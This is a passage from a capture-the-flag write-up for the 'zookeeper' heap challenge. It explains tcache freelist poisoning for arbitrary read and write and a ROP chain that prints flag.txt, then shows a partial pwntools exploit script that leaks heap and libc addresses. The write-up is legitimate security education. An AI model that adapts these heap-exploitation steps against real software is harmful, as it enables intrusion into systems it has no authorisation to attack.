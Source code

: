 <br>

Well, it probably obvious already how to get an arbitarary write. Like arbitary read, we can change the head of any tcache freelist head, so even tcache bins the with the size 0x300 can be used to write anywhere. Like I said before, I wrote to the stack so that I could create a ropchain. Using this ropchain, I opened "flag.txt", read from it, and printed the contents. GG!

### Full Exploit
Here's the full exploit :D

```py
from pwn import *
import codecs

libc = ELF('./libc-2.31.so')
seccomp = ELF('./libseccomp.so.2.5.1')

# p = process('./zookeeper', env={"LD_PRELOAD": libc.path + " " + seccomp.path})
p = remote("zookeeper.chal.imaginaryctf.org", 1337)

def add(idx, size, content, usecontent=True):
    p.sendlineafter("(v)iew a lion\n", "f")
    p.sendlineafter("idx:", str(idx))
    p.sendlineafter("len:", str(size))
    if(usecontent):
        p.sendlineafter("content:", content)

def lose(idx):
    p.sendlineafter("(v)iew a lion\n", "l")
    p.sendlineafter("idx:", str(idx))

def view(idx):
    p.sendlineafter("(v)iew a lion\n", "v")
    p.sendlineafter("idx:", str(idx))

# Get heap leak
add(0, 0x10, "asdf")
add(0, 0x0, "asdf", usecontent=False)
view(0)
p.recvline()
heap_leak = int(codecs.encode(p.recvline().strip()[::-1], 'hex'), 16)
print(hex(heap_leak))
heap_base = heap_leak - 0x1db0


# Free tcache_perthread_struct
add(0, 0x10, "ZAFIR_1")
lose(0)


# Get libc address leak
buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
add(1, 0x280, buf)
add(2, 0x800, "leaker")
lose(1)

buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
buf += p64(heap_base + 0x15a0)
add(1, 0x280, buf)

```